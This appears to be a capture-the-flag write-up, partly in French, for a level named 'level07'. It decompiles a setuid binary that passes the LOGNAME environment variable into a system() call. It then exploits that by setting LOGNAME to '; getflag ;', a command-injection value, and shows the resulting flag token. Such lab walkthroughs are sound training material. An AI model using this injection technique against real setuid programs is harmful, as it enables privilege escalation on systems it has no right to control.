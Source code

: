 # level07

```bash
$ ls
level07
$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
$ ./level07
level07
$ ./level07 getflag
level07
```

```bash
$ scp -P 4242 level07@192.168.179.131:/home/user/level07/level07 .
$ ghidra level07
```

```c
int main(int argc,char **argv,char **envp)
{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;

  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}
```

Le binaire créer une string dans local_1c qui contient “/bin/echo “ et la valeur de la variable d’environnement LOGNAME, qui devait donc être level07, il nous suffit de modifier cette variable afin d’exécuter `getflag`

```c
$ env | grep "LOGNAME"
LOGNAME=level07
export LOGNAME="; getflag ;"
$ env | grep "LOGNAME"
LOGNAME=; getflag ;
$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
